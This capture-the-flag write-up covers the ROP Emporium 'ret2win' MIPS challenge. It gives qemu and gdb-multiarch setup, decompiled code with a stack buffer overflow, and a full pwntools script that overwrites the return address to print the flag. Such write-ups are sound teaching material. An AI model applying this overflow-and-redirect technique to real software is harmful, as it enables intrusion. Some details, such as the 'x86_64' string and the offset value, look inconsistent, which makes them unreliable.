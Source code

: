 # Ret2win (MIPS)

## MIPS architecture
Description [here](https://en.wikipedia.org/wiki/MIPS_architecture#Registers)<br>
Registers [here](https://www.doc.ic.ac.uk/lab/secondyear/spim/node10.html)<br>
Instruction set [here](https://www.dsi.unive.it/~gasparetto/materials/MIPS_Instruction_Set.pdf) 
### Calling convention
`MIPS` has not a standard calling convention, so it entirely depends on the specific compiler. However some calling conventions are more used than others: `O32` and `N32/N64`. 

![O32](imgs/O32.png)
![N](imgs/N32_N64.png)
### Frame structure
![framestructure](imgs/frame_mips.png)

Source: [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64/)

## Running MIPS binary using qemu and debugging with gdb-multiarch
### Installation
You'll need to install `qemu` to run the binary.
```bash
sudo apt install qemu qemu-user
```
### Libraries
There are required libraries to run this program, you can download them following [this link](https://github.com/angr/binaries/tree/master/tests/mipsel)
### Execution
Once downloaded the mandatory `libraries`, you can run the program typing:
```bash
qemu-mipsel -L /path/to/libraries ./ret2win_mipsel
```

If you want, you can move the libs in `/lib/` and run the `qemu-mipsel ./ret2win_mipsel` command normally.

### Debugging
To debug this program with `gdb`, we have to setup `qemu` accordingly to accept gdb connections.
To do so, we must provide the `-g <port>` parameter. The final command should look like this:
```bash
qemu-mipsel -L /path/to/libraries -g <port> ./ret2win_mipsel
```
Using another terminal, we should be able to connect to `qemu` using `gdb`.
Normal `gdb` won't be adapt for our objective, so we'll have to use a `multiarch gdb` (install it by issuing `sudo apt install -y gdb-multiarch`)
Once done, we can connect to the remote target using this series of `gdb` commands (or a `gdb script` if you're more familiar with that).
```bash
gdb-multiarch
```
```gdb
symbol-file ./ret2win_mipsel
set arch mips:isa32
target remote :<port>
```

## Reversing with Ghidra
### Main
```c
int main() {
  puts("ret2win by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
### pwnme
```c
void pwnme() {
  char buf[32];
  
  memset(buf, 0, 0x20);
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don\'t worry about null bytes, we\'re using read()!\n");
  printf("> ");
  read(0, buf, 0x38);
  puts("Thank you!");
  return;
}
```
### ret2win (target)
```c
void ret2win() {
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```

## The vuln
The `read` function reads `0x38` (`56`) bytes but the buffer is only `32` bytes long, this allows us to overflow the `buf` variable and write on the stack wherever we want (the `return address` in our case).

## The exploit
```py
from pwn import *

#
# Context
#

e = context.binary = ELF('ret2win_mipsel')

#
# ROP
#

target = p32(0x00400a00)

#
# Find Offset
#

# launch qemu with payload
"""
python3 -c 'from pwn import *; print(cyclic(0x38))' | qemu-mipsel -g <port> ./ret2win_mipsel
"""

# gdb-multiarch script
"""
symbol-file ret2win_mips
set arch mips:isa32
target remote :<port>

b *pwnme+252
i r ra
"""

# calculate offset
"""
python3 -c 'from pwn import *; print(cyclic_find(bytes.fromhex("6161616a")))'
"""

offset = 33
info(f'Offset: {offset}')

#
# Exploit
#

payload  = b''
payload += b'A' * offset
payload += target

io = process(e.path)
io.sendlineafter(b'> ', payload)

info(io.recvuntil(b'}').decode())

io.close()
```